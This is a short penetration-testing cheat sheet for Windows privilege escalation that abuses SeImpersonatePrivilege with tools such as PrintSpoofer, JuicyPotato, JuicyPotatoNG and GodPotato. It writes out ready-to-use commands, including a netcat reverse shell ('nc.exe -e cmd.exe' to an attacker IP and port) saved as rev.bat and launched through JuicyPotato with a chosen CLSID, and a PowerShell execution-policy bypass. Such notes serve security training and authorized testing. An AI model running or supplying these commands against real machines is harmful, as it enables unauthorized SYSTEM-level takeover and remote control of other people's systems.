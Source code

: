 ### SeImpersonatePrivilege

whoami /all (privileges information)

SeImpersonatePrivilege = Enabled

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Privilege Escalation 1

```Windows 10``` and ```Server 2016```/```2019```/```2022```

```LOCAL SERVICE```/```NETWORK SERVICE```/```iis apppool\defaultapppool```

Tool:[PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

### Privilege Escalation 2

[JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

```cmd
echo C:\Windows\Temp\nc.exe -e cmd.exe <attacker ip> <attacker port> > rev.bat
```

[CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

```cmd
powershell -ep bypass -f "C:\Windows\Temp\GetCLSID.ps1"
REM test
test_clsid.bat
type result.log
```

```cmd
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l <attacker port> -t * -c <CLSID>
REM -t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
REM -p <program>: program to launch
REM -l <port>: COM server listen port
REM example
C:\Windows\Temp\juicypotato.exe -p C:\Windows\Temp\rev.bat -l 4444 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

[JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

```powershell
# Check if the content of rev.bat is correct or send it from our host.
echo C:\Windows\Temp\nc.exe -e cmd.exe <attacker ip> <attacker port> > rev.bat
.\JuicyPotatoNG.exe -t * -p C:\Windows\Temp\rev.bat
```

[GodPotato](https://github.com/BeichenDream/GodPotato)